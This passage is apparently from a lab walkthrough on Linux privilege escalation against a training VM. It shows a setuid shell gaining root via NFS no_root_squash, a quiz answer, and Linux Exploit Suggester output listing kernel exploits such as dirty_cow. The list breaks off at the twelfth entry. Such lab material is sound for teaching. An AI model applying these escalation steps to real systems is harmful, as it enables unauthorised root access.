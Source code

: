`# chmod +xs /tmp/nfs/shell.elf`

Back on the Debian VM, as the low privileged user account, execute the file to gain a root shell:
```
user@debian:~$ /tmp/shell.elf 
bash-4.1# id
uid=1000(user) gid=1000(user) euid=0(root) egid=0(root) groups=0(root),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),1000(user)
bash-4.1# 
```

What is the name of the option that disables root squashing?
Answer: "no_root_squash"

### Kernel Exploits

Kernel exploits can leave the system in an unstable state, which is why you should only run them as a last resort.

Run the Linux Exploit Suggester 2 tool to identify potential kernel exploits on the current system:

```
user@debian:~$ perl linux-exploit-suggester-2.pl

  #############################
    Linux Exploit Suggester 2
  #############################

  Local Kernel: 2.6.32
  Searching 72 exploits...

  Possible Exploits
  [1] american-sign-language
      CVE-2010-4347
      Source: http://www.securityfocus.com/bid/45408
  [2] can_bcm
      CVE-2010-2959
      Source: http://www.exploit-db.com/exploits/14814
  [3] dirty_cow
      CVE-2016-5195
      Source: http://www.exploit-db.com/exploits/40616
  [4] exploit_x
      CVE-2018-14665
      Source: http://www.exploit-db.com/exploits/45697
  [5] half_nelson1
      Alt: econet       CVE-2010-3848
      Source: http://www.exploit-db.com/exploits/17787
  [6] half_nelson2
      Alt: econet       CVE-2010-3850
      Source: http://www.exploit-db.com/exploits/17787
  [7] half_nelson3
      Alt: econet       CVE-2010-4073
      Source: http://www.exploit-db.com/exploits/17787
  [8] msr
      CVE-2013-0268
      Source: http://www.exploit-db.com/exploits/27297
  [9] pktcdvd
      CVE-2010-3437
      Source: http://www.exploit-db.com/exploits/15150
  [10] ptrace_kmod2
      Alt: ia32syscall,robert_you_suck       CVE-2010-3301
      Source: http://www.exploit-db.com/exploits/15023
  [11] rawmodePTY
      CVE-2014-0196
      Source: http://packetstormsecurity.com/files/download/126603/cve-2014-0196-md.c
  [12] rds
```